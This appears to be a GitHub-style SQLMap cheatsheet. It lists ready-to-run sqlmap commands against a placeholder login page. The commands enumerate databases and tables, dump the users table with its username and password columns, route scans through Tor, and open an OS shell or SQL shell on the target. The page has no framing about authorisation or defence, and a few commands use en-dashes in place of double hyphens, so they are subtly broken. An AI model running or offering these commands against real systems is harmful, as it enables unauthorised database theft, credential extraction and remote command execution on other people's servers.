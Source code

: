 ## SQLMap Cheatsheet

#### Easy Scanning option

> sqlmap -u "http://testsite.com/login.php"

#### Scanning by using tor

> sqlmap -u "http://testsite.com/login.php" --tor --tor-type=SOCKS5

#### Scanning by manually setting the return time

> sqlmap -u "http://testsite.com/login.php" --time-sec 15

#### List all databases at the site

> sqlmap -u "http://testsite.com/login.php" --dbs

#### List all tables in a specific database

> sqlmap -u "http://testsite.com/login.php" -D site_db --tables

#### Dump the contents of a DB table

> sqlmap -u "http://testsite.com/login.php" -D site_db -T users –dump

#### List all columns in a table

> sqlmap -u "http://testsite.com/login.php" -D site_db -T users --columns

#### Dump only selected columns

> sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump

#### Dump a table from a database when you have admin credentials

> sqlmap -u "http://testsite.com/login.php" –method "POST" –data "username=admin&password=admin&submit=Submit" -D social_mccodes -T users –dump

#### Get OS Shell

> sqlmap --dbms=mysql -u "http://testsite.com/login.php" --os-shell

#### Get SQL Shell

> sqlmap --dbms=mysql -u "http://testsite.com/login.php" --sql-shell
